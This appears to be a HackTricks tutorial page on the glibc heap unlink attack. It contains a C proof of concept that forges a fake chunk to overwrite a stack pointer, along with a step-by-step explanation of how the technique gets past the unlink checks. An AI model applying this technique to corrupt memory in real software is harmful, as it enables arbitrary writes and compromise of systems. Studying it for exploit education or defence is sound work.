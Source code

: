 # Unlink Attack

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

When this attack was discovered it mostly allowed a WWW (Write What Where), however, some **checks were added** making the new version of the attack more interesting more more complex and **useless**.

### Code Example:

<details>

<summary>Code</summary>

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  unsigned long long *chunk1, *chunk2;
  struct chunk_structure *fake_chunk, *chunk2_hdr;
  char data[20];

  // First grab two chunks (non fast)
  chunk1 = malloc(0x8000);
  chunk2 = malloc(0x8000);
  printf("Stack pointer to chunk1: %p\n", &chunk1);
  printf("Chunk1: %p\n", chunk1);
  printf("Chunk2: %p\n", chunk2);

  // Assuming attacker has control over chunk1's contents
  // Overflow the heap, override chunk2's header

  // First forge a fake chunk starting at chunk1
  // Need to setup fd and bk pointers to pass the unlink security check
  fake_chunk = (struct chunk_structure *)chunk1;
  fake_chunk->size = 0x8000;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

  // Next modify the header of chunk2 to pass all security checks
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
  chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

  // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
  // This results in chunk1 pointer pointing to chunk1 - 3
  // i.e. chunk1[3] now contains chunk1 itself.
  // We then make chunk1 point to some victim's data
  free(chunk2);
  printf("Chunk1: %p\n", chunk1);
  printf("Chunk1[3]: %x\n", chunk1[3]);

  chunk1[3] = (unsigned long long)data;

  strcpy(data, "Victim's data");

  // Overwrite victim's data using chunk1
  chunk1[0] = 0x002164656b636168LL;

  printf("%s\n", data);

  return 0;
}

```

</details>

* Attack doesn't work if tcaches are used

### Goal

* Modify a pointer to a chunk in the stack so it points to the stack so it's possible to alter the contents of the stack by writing in the chunk

### Requirements

* Some control in a memory (e.g. stack) to create a couple of chunks giving values to some of the attributes.
* Stack leak in order to set the pointers of the fake chunk.

### Attack

* There are a couple of chunks (chunk1 and chunk2)
* The attacker controls the content of chunk1 and the headers of chunk2.
* In chunk1 the attacker creates the structure of a fake chunk:
  * To bypass protections he makes sure that the field `size` is correct to avoid the error: `corrupted size vs. prev_size while consolidating`
  * and fields `fd` and `bk` of the fake chunk are pointing to where chunk1 pointer is stored in the with offsets of -3 and -2 respectively so `fake_chunk->fd->bk` and `fake_chunk->bk->fd` points to position in memory (stack) where the real chunk1 address is located:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* The headers of the chunk2 are modified to indicate that the previous chunk is not used and that the size is the size of the fake chunk contained.
* When the second chunk is freed then this fake chunk is unlinked happening:
  * `fake_chunk->fd->bk` = `fake_chunk->bk`
  * `fake_chunk->bk->fd` = `fake_chunk->fd`
* Previously it was made that `fake_chunk->fd->bk` and `fake_chunk->fd->bk` point to the same place (the location in the stack where `chunk1` was stored, so it was a valid linked list). As **both are pointing to the same location** only the last one (`fake_chunk->bk->fd = fake_chunk->fd`) will take **effect**.
* This will **overwrite the pointer to chunk1 in the stack to the address (or bytes) stored 3 addresses before in the stack**.
  * Therefore, if an attacker could control the content of the chunk1 again, he will be able to **write inside the stack** being able to potentially overwrite the return address skipping the canary and modify the values and points of local variables. Even modifying again the address of chunk1 stored in the stack to a different location where if the attacker could control again the content of chunk1 he will be able to write anywhere.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## References

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
